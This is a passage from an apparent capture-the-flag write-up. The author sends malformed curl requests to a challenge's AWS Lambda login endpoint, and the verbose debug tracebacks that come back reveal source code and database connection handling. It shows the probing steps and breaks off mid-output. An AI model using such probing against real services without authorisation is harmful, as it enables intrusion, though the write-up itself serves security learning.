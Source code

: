 ```javascript
}
```

Let's try different inputs:
```console
root@kali:/media/sf_CTFs/hackazon/CyberTank_Website# curl -s "https://nk932uo6zj.execute-api.eu-central-1.amazonaws.com/default/CyberTankAuthLambda?action=login&username=#"
File /var/task/lambda_function.py, line 70, in lambda_handler
    60   def lambda_handler(event, context):
 (...)
    66
    67                  if query['action'] == "forgot":
    68                          return ret(forgot(query['username']))
    69                  elif query['action'] == "login":
--> 70                          return ret(login(query['username'], query['password']))
    71                  else:
    ..................................................
     event = {'version': 2,
              'path': '/default/CyberTankAuthLambda',
              'httpMethod': 'GET',
              'headers': {'Content-Length': '0',
                          'Host': 'nk932uo6zj.execute-api.eu-central-1.am
              azonaws.com',
                          'User-Agent': 'curl/7.64.0',
                          'X-Amzn-Trace-Id': 'Root=1-5e32050d-39ec62fca49
              a453079fe93dc',
                          'X-Forwarded-For': '77.124.115.11',
                          'X-Forwarded-Port': '443',
                          'X-Forwarded-Proto': 'https',
                          'accept': '*/*'},
              'multiValueHeaders': {'Content...
     context = <bootstrap.LambdaContext object at 0x7f5ddead6cd0>
     query = {'action': 'login',
              'username': ''}
    ..................................................

KeyError: 'password'
```

A debug message is displayed upon error. We can see that there's also a "forgot your password" action, let's try it:

```console
root@kali:/media/sf_CTFs/hackazon/CyberTank_Website# curl -s "https://nk932uo6zj.execute-api.eu-central-1.amazonaws.com/default/CyberTankAuthLambda?action=forgot&username=#"
File /var/task/lambda_function.py, line 68, in lambda_handler
    60   def lambda_handler(event, context):
 (...)
    64                  query = event["queryStringParameters"]
    65                  conn = pymysql.connect(rds_config.db_host, user=rds_config.db_user, passwd=rds_config.db_pass, db=rds_config.db_name, connect_timeout=5, cursorclass=pymysql.cursors.DictCursor)
    66
    67                  if query['action'] == "forgot":
--> 68                          return ret(forgot(query['username']))
    69                  elif query['action'] == "login":
    ..................................................
     event = {'version': 2,
              'path': '/default/CyberTankAuthLambda',
              'httpMethod': 'GET',
              'headers': {'Content-Length': '0',
                          'Host': 'nk932uo6zj.execute-api.eu-central-1.am
              azonaws.com',
                          'User-Agent': 'curl/7.64.0',
                          'X-Amzn-Trace-Id': 'Root=1-5e320542-cb1c072c9e6
```
